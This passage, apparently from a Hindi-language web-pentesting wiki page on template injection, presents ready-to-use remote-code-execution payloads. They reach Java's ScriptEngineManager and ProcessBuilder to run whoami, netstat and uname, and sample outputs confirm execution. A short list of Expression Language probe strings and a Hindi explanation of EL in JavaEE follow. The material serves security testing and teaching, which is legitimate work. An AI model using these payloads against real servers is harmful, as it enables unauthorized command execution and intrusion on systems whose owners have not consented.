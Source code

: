 ```java

//{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
//output: xxx

//RCE
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
//output: java.lang.UNIXProcess@1e5f456e

//RCE with org.apache.commons.io.IOUtils.
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//output: netstat execution

//Multiple arguments to the commands
Payload: {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//Output: Linux bumpy-puma 4.9.62-hs4.el6.x86_64 #1 SMP Fri Jun 1 03:00:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
**अधिक जानकारी**

* [https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)

### एक्सप्रेशन लैंग्वेज - EL (Java)

* `${"aaaa"}` - "aaaa"
* `${99999+1}` - 100000.
* `#{7*7}` - 49
* `${{7*7}}` - 49
* `${{request}}, ${{session}}, {{faceContext}}`

Expression Language (EL) एक मौलिक विशेषता है जो प्रस्तुति परत (जैसे वेब पृष्ठ) और एप्लिकेशन लॉजिक (जैसे प्रबंधित बीन) के बीच बातचीत को सुगम बनाती है JavaEE में। इसका उपयोग कई JavaEE तकनीकों में इस संचार को सरल बनाने के लिए किया जाता है। EL का उपयोग करने वाली प्रमुख JavaEE तकनीकें शामिल हैं:

* **JavaServer Faces (JSF)**: JSF पृष्ठों में घटकों को संबंधित बैकएंड डेटा और क्रियाओं से जोड़ने के लिए EL का उपयोग करता है।
* **JavaServer Pages (JSP)**: JSP में डेटा को एक्सेस और मैनिपुलेट करने के लिए EL का उपयोग किया जाता है, जिससे पृष्ठ तत्वों को एप्लिकेशन डेटा से जोड़ना आसान हो जाता है।
* **Contexts and Dependency Injection for Java EE (CDI)**: EL CDI के साथ एकीकृत होता है ताकि वेब परत और प्रबंधित बीन के बीच निर्बाध बातचीत सुनिश्चित की जा सके, जिससे एक अधिक संगठित एप्लिकेशन संरचना सुनिश्चित होती है।

**EL इंटरप्रेटर्स के शोषण** के बारे में अधिक जानने के लिए निम्नलिखित पृष्ठ देखें:

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}
